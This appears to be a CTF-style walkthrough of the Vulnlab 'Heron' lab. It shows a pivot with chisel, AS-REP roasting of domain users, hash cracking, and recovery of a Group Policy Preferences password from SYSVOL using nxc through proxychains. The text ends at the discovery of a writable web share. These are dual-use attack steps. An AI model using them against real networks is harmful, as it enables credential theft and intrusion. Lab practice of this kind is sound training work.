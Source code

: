 # Vulnlab - Heron

## Jump server

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 10:a0:bd:2a:81:3d:37:5d:23:75:c8:d2:83:bf:2a:23 (ECDSA)
|_  256 bd:32:29:26:4d:41:d7:56:01:37:bc:10:0c:de:45:24 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The server had only port 22 with the credentials provided on vulnlab wiki as this chained machine is an assumed breach scenario `pentest:Heron123!`

<img src="https://i.imgur.com/gZofAmS.png"/>

Checking for privileges, we can't use sudo as this user isn't in sudoers group

<img src="https://i.imgur.com/XAq5Y6e.png"/>

From the user's directory, two users `svc-web-accounting` and `svc-web-accounting-d` belong to `heron.vl` , having only usernames there's only as-rep roasting we could try if these domain users have pre-authentication not required, this could give us the as-rep hash so we can try cracking to get the plain text password.  

<img src="https://i.imgur.com/BSzMIFD.png"/>

Checking the internal ports, there's only ssh here

<img src="https://i.imgur.com/ucBGER1.png"/>

To proceed with as-rep roasting we need to perform pivoting as we directly cannot reach domain controller, this can be done with either chisel or ligolo-ng, I'll be using chisel since we only need to access one host, if it were a network then ligolog would have been a better option for that

```bash
chisel server --reverse -p 3000
chisel client 10.8.0.136:3000 R:socks
```

<img src="https://i.imgur.com/Mko09nM.png"/>

With Get-NPUsers to check the pre-authentication not required, both of the users had that required

<img src="https://i.imgur.com/ZfyeCbs.png"/>

Bruteforcing the SIDs with guest account was not possible too as that account was disabled

<img src="https://i.imgur.com/9bZ82My.png"/>

Visiting the web page, we have a pager about heron corp with three more usernames at the bottom

<img src="https://i.imgur.com/HZsCNou.png"/>

<img src="https://i.imgur.com/z1lv529.png"/>

Trying to check pre-auth again with these users, we'll get samuel.davies's hash and cracking it with hashcat

<img src="https://i.imgur.com/yJQTcib.png"/>

<img src="https://i.imgur.com/Vy250Im.png"/>

Enumerating the shares, samuel had read access on `sysvol` , `home` and write on `transfer$` which seem to be only two interesting shares right now

<img src="https://i.imgur.com/ieSOE6z.png"/>

Then transfer share was empty, home had bunch of user directories including samuel which was also didn't had anything

<img src="https://i.imgur.com/BfxrUZf.png"/>

<img src="https://i.imgur.com/Luo2ito.png"/>

<img src="https://i.imgur.com/uSo0yIO.png"/>

However, from SYSVOL share in one of the policy directory, we can find encrypted password for svc-web-accounting

<img src="https://i.imgur.com/PDBKC3P.png"/>

<img src="https://i.imgur.com/ajCy3tX.png"/>

Decrypting this with GPP-decrypt python script

<img src="https://i.imgur.com/dGxukR0.png"/>

GPP password can also be recovered through nxc/cme with `gpp_password` module

```bash
proxychains  nxc smb 10.10.196.37 -u 'samuel.davies' -p 'pass' -M gpp_password
```

<img src="https://i.imgur.com/8tWxHyt.png"/>

Checking the access on smb shares with svc-web-account-d, there's write access on accounting share

<img src="https://i.imgur.com/jdFb9mk.png"/>
The accounting share has the application files including the web.config 

<img src="https://i.imgur.com/j3gUK7E.png"/>

# References

- https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
- https://github.com/t0thkr1s/gpp-decrypt
